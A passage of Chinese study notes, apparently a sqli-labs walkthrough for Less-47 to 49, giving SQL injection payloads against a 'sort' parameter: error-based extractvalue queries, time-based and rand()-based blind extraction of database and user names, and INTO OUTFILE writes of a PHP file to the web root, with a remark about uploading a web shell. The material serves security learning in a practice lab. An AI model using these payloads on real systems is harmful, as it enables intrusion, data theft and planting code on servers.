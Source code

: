     ?sort=1%27procedure%20analyse(extractvalue(rand(),concat(0x3a,version())),1)--+
    # 注意这里在学习实验中是报错的，非预期结果，或环境原因，不影响学习思路。
    
(3) 导入导出文件into outfile 参数

    ?sort=1%27%20into%20outfile%20%22c:\\wamp\\www\\MySQL_Injection_Linux\\test47.txt%22 --+
    # 注意这里是注入，需要添加 --+ ，查询结果会导入到文件中。
    # 同样，可以考虑上传网马，这里实践写出 payload: 
    ?sort=1%27%20into%20outfile%20%22c:\\wamp\\www\\MySQL_Injection_Linux\\test47.php%22%20lines%20terminated%20by 0x3c3f70687020706870696e666f28293b3f3e--+
    上述语句等价于：sort=1' into outfile dir+filename lines terminate by 0x <?php phpinfo();>的hackbar里的16进制编码 --+
    # 然后访问导出目标文件，可以看到php信息页面。


### Less-48

本关与 Less-48 的区别在于前端不回显错误。

给出payload: 

    # 1. 可以利用 sort=rand(true/falses)
    ?sort=rand(ascii(left(database(),1))=115) # ascii(s)=115
    ?sort=rand(ascii(left(database(),1))=116)
    # 这里在实验环境结果是不一样的，证明注入思路正确
    # 2. 使用 and 后的延时注入
    ?sort=1%20and%20if(ascii(substr(database(),1,1))=115,0,sleep(5))
    ?sort=1%20and%20if(ascii(substr(database(),1,1))=116,0,sleep(5))
    

### Less-49
    
本关与 Less-48 的区别在于前端不回显错误。

给出payload:

    # 1. 利用延时注入
    ?sort=1%27%20and%20(If(ascii(substr((select%20username%20from%20users%20where%20id=1),1,1))=69,0,sleep(2)))--+
    # 2. 利用 into outfile 注入
    ?sort=1%27%20into%20outfile%20%22c:\\wamp\\www\\MySQL_Injection_Linux\\test49.php%22%20lines%20terminated%20by%200x3c3f70687020706870696e666f28293f3e--+
    # 注意记得 lines terminated by 0x...
